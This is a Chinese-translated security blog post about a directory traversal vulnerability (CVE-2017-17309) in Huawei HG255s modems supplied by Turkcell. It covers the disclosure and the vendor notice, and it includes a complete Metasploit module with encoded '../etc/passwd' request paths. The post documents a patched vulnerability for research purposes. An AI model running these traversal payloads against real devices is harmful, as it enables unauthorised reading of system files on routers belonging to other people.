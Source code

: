 # 华为 HG255s 产品中的目录遍历漏洞

> 原文：<https://infosecwriteups.com/directory-ttraversal-vulnerability-in-huawei-hg255s-products-dce941a1d015?source=collection_archive---------1----------------------->

![](img/5ef2c4b27ca8d65f8468272618926067.png)

华为 HG255s

我想谈谈我们过去发现的一个漏洞。我想重新发布这个不错的安全研究，这样它就可以在我的博客上。我们发现的这个产品实际上属于 Turkcell，它是土耳其的一家国内互联网基础设施提供商。它将这种调制解调器作为标准调制解调器提供给互联网用户。这就是为什么我们可以说有数百万人在使用它。此外，华为还专门为 Turkcell 开发了这款产品。因此，考虑针对某个国家使用的特定产品的网络攻击的可能性。幸运的是，我们善意的安全研究人员已经报告了这一情况。当我们对该产品进行安全研究时，我们注意到了目录遍历漏洞并报告了该漏洞。我甚至为这个漏洞开发了一个 metasploit 模块。

目录遍历，也称为“文件路径遍历”或“点点斜杠”，是一种漏洞，使得攻击者能够访问存储在 web 应用程序根目录之外的文件和目录。当 web 应用程序没有正确验证用户输入时，就会出现此漏洞，使得攻击者能够操纵文件路径来访问根目录以外的文件和目录。

例如，考虑一个允许用户将图像上传到“照片”目录的 web 应用程序。如果 web 应用程序没有正确验证上传图像的文件路径，攻击者可能会上传带有恶意文件路径的图像，例如“../../etc/passwd "，试图访问系统的密码文件。这种类型的攻击是可能的，因为“../”序列告诉 web 应用程序向上一级目录。通过使用多个“../”序列，攻击者可以遍历多个级别，并可能访问存储在 web 应用程序根目录之外的敏感文件和目录。

为了防止目录遍历漏洞，对于 web 开发人员来说，正确验证和净化用户输入以确保它不包含任何恶意文件路径是非常重要的。这可以通过使用输入验证、白名单和净化等技术来实现。通过对敏感文件和目录设置适当的权限来防止未经授权的访问，从而适当地保护文件系统也很重要。

安全漏洞的原因是什么？

当您检查下面的 metasploit 模块时，4 个不同的目录受到此漏洞的影响；

```
'/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd',
'/lib/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd',
'/res/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd',
'/css/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd'
```

> **华为为我们发布的文章:**

华为注意到安全研究员 Ahmet Mersin 披露了华为 HG255s 中的一个**目录遍历漏洞**。在此之前，安全研究人员 Bar aryldlrm、Ahmet Mersin 和 Ismail Tasdelen 已经向华为 PSIRT 发送了该漏洞。华为立即展开彻查。

华为已经完成调查。**华为 HG255s** 受此漏洞影响(**CVE-2017–17309**)，华为已经向受影响的运营商提供了修复方案。运营商发布了一个固定版本。受影响的产品将收到系统更新提示，用户可以安装更新来修复漏洞。

![](img/0dc16a6821727e443cfc4eb0060b6424.png)

CVE-2017–17309

我们对巴尔扎尔德勒姆、艾哈迈德·梅尔辛和伊斯梅尔·塔斯德伦对华为产品的关注表示感谢。

> **概念验证视频:**

漏洞 0lab youtube 频道

> **CVSS 评分:**

*基础分:***7.5 高**

**CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N**

> ***Metasploit 代码:***

```
*##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#
##

class MetasploitModule < Msf::Auxiliary
   include Msf::Exploit::Remote::HttpClient

   def initialize
       super(
           'Name'        => 'Huawei HG255 Directory Traversal',
           ‘Description’ => ‘Server Directory Traversal at Huawei HG255 by malicious GET requests’,
           ‘Author’      => ‘Ismail Tasdelen’,
           ‘License’     => MSF_LICENSE,
           ‘References’     =>
           [
              ['CVE', '2017-17309' ],
              ['URL', 'https://www.huawei.com/en/psirt/security-notices/huawei-sn-20170911-01-hg255s-en']
           ]
       )
       register_options(
           [
               Opt::RPORT(80)
           ], self.class
       )
   end

   def run
       urllist=[
           ‘/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’,
           ‘/lib/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’,
           ‘/res/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’,
           ‘/css/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd’]

       urllist.each do |url|
           begin
               res = send_request_raw(
               {
                       ‘method’=> ‘GET’,
                       ‘uri’=> url
               })

               if res
                   print_good(“Vulnerable! for #{url}”)
               else
                   print_status(“Vulnerable(no response) detected for #{url}”)
               end
           rescue Errno::ECONNRESET
               print_status(“Vulnerable(rst) detected for #{url}”)
           rescue Exception
               print_error(“Connection failed.”)
           end
       end
   end*
```

> ***修改历史:***

*2018–06–06v 1.1 更新更新安全公告描述信息*

*2017 年 9 月 11 日 1.0 版初始*

> ***感谢信:***

*![](img/7519395c34a8e2921daf8dbd3083202f.png)*

***致谢函***

> ***参考文献:***

*[](https://nvd.nist.gov/vuln/detail/CVE-2017-17309) [## NVD

### 已修改自 NVD 上次分析以来，此漏洞已被修改。它正在等待重新分析…

nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-17309) [](https://github.com/exploit-labs/huawei_hg255s_exploit) [## GitHub-exploit-labs/华为 _hg255s_exploit:🚀华为 HG255s ☄️的服务器目录遍历…

### 🚀华为 HG255s ☄️的服务器目录遍历- CVE-2017-17309🚀-GitHub-exploit-labs/Huawei _ Hg 255s _ exploit:🚀…

github.com](https://github.com/exploit-labs/huawei_hg255s_exploit) [](http://www.huawei.com/en/psirt/security-notices/huawei-sn-20170911-01-hg255s-en) [## 华为-sn-20170911-01-hg255s-en

### 本网站使用 cookies。通过继续浏览网站，您同意我们使用 cookies。阅读我们的隐私…

www.huawei.com](http://www.huawei.com/en/psirt/security-notices/huawei-sn-20170911-01-hg255s-en) [](https://www.exploit-db.com/exploits/47923) [## 攻击性安全利用数据库档案

### 华为 HG255 -目录遍历(Metasploit)..硬件平台的 webapps 漏洞

www.exploit-db.com](https://www.exploit-db.com/exploits/47923)  [## 安全漏洞研究实验室

### 安全漏洞研究实验室

漏洞实验室-LABORATORYwww.vulnerability-lab.com 安全漏洞研究](https://www.vulnerability-lab.com/show.php?user=Ismail+Tasdelen) ![](img/49c1f6f7816f41206441555b10934760.png)

BB-8 机器人

在这篇文章中，我谈到了我们发现的漏洞和我开发的利用程序。保重，在我的下一篇文章中再见。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*